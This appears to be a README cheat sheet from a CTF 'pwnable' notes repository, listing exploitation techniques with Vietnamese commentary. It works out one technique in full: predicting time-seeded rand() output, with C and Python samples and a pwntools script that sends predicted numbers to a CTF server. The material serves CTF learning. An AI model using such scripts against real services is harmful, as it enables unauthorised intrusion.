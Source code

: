 # zAttack
- Technique and subTechnique support pwnable ctf and exploit.

## [0] Overview
- Integer Overflow
- &environ
- _rtld_global
- Canary global TLS
- overwrite `.fini_array` => loop
- Type of Confusion | Type Error
- Command Injection
- Path Traversal
- CGI File Binary
- Logic BUG: seed, permission, ...
    * __RANDOM => seed__: dùng seed có giá trị là thời gian thực lúc chạy chương trình, vì vậy tạo 1 script chạy cùng là xong

    * Nhiệm vụ của srand(x) đưa ra seed x rồi rand() dựa vào x đưa ra số a. Khi đó a là seed cho lần gọi rand() tiếp theo (cứ như thế tiếp tục). Do vậy VD trong vòng lặp thời gian 1 giây rand() dùng seed cũ liên tục nên nó không bao giờ ra số khác nhau trong khoảng thời gian đó.

    * VD: [Meshuggah](https://qbao.home.blog/2020/04/30/start-to-pwnb01lers-ctf/) .
    ```bash
    asm:
        mov edi, 0      ; time
        call _time
        add eax, 2
        mov edi, eax    ; seed
        call _srand
    ```

    ```C
    int main(){
        int seed = time(0) + 2;
        srand(seed);
        for(int i = 0; i < 100; i++)
            printf("%d\n", rand());
        return 0;
    }
    ```
    * Code sample python
    ```python
    from ctypes import CDLL
    from ctypes.util import find_library

    libc = CDLL(find_library("c"))

    libc.srand(0x5a35b162)
    print(libc.rand(), libc.rand(), libc.rand())
    ```
    ```python
    #!/usr/bin/env python3
    from pwn import *
    import random
    import time
    import calendar
    import datetime
    from ctypes import *
    import random
    elf = ELF("./random")
    libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
    # p = elf.process()
    p = remote("challs.tfcctf.com", "32615")
    context.update(binary=elf, log_level="DEBUG")
    # gdb.attach(p, '''
    # 	b *vuln
    # 	''')

    current_GMT = time.gmtime()
    time_stamp = calendar.timegm(current_GMT)
    libc.srand(time_stamp)
    print(p.recvline())
    for i in range(10):
        number = libc.rand()
        p.sendline(str(number).encode())


    p.interactive()
    ```

## [1] References:
- https://dreamhack.io/
